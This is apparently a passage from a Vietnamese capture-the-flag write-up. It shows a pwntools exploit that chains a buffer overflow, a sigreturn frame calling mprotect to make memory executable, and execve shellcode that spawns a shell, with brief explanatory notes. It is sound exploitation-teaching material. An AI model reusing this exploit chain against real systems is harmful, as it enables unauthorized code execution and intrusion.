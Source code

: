 
```
syscall = 0x0000000000401014

frame = SigreturnFrame()
frame.rax = 0xa
frame.rdi = 0x400000
frame.rsi = 0x4000
frame.rdx = 0x7
frame.rip = syscall
frame.rsp = 0x4010d8


payload = b'a'*40
payload += p64(exe.sym.vuln)
payload += p64(syscall)
payload += bytes(frame)

input()
p.send(payload)
p.recv()


p.send(b'a'*15)
p.recv()
```

- rsp = 0x4010d8 chứa địa chỉ của vuln , và ta muốn quay lại vuln để thực thi shellcode nên cần tìm thằng này và trỏ đến

***1 mẹo khi xài sig_return là dùng p.recv() để tránh bị nhầm dữ liệu***


tiếp theo nó sẽ quay lại vuln và lúc này nó sẽ read tiếp và ta chỉ cần ghi shellcode vào và overwrite rip để trỏ đến shellcode đó tiếp 

```
shellcode = asm('''
            movabs r10, 29400045130965551
            push r10
            xor rsi,rsi
            xor rdx,rdx
            mov rdi,rsp

            mov rax,0x3b
            syscall

            ''')
payload1 = shellcode
payload1 = payload1.ljust(40,b'p') + p64(0x4010b8)
#payload1 = shell_code.ljust(40, b'A')
#payload1 += p64(0x4010b8)
p.send(payload1)
```
